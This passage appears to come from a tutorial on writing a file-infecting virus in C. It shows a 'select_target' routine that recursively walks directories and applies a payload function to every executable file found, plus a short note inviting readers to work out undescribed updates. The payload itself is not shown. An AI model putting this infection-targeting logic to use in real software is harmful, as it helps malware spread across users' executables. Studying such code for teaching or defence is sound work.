 ```C
int select_target (int old_fd, char *folder, PAYLOAD_FUNC pf) {
  char                buf[BUF_SIZE];
  struct linux_dirent *de;
  struct stat         st;
  int                 fd, n, i;

  tabs[level] = ' ';
  level ++;

  mfw_print_tstr (">> Entering ", folder);

  if ((fd = mfw_openat (old_fd, folder, O_RDONLY | O_DIRECTORY)) < 0) goto clean;
  
  while (1) {
    n = mfw_getdents (fd, buf, BUF_SIZE);
    if (n < 0) continue; // Silently ignore errors
    if (n == 0) break;

    for (i = 0; i < n;) {
      de = (struct linux_dirent *)(buf + i);
      if ((mfw_newfstatat (fd, de->d_name, &st, 0)) < 0) goto next;
      
      if (((st.st_mode & S_IFMT) == S_IFREG) && (st.st_mode & 00111))
	    pf (de->d_name);
      else if (((st.st_mode & S_IFMT) == S_IFDIR)
	       && !(de->d_name[0] == '.'
		     && (de->d_name[1] == 0
		         || (de->d_name[1] == '.' && de->d_name[2]==0))))
	    select_target (fd, de->d_name, pf);
    next:
      i += de->d_reclen;
    }
  }
 clean:
  mfw_print_tstr ("<< Leaving ", folder);
  tabs[level] = 0;
  level--;
  mfw_close (fd);
  return 0;
}

int main (int argc, char *argv[]) {
  for (int i = 0; i < 1024; tabs[i++] = 0);
  while (select_target(0, argv[1], payload));
}

```

As I did last time. This version has a few updates that I haven't described in the text. Try to understand what they are for and do not hesitate to ask your questions in case you cannot figure it out by yourself.
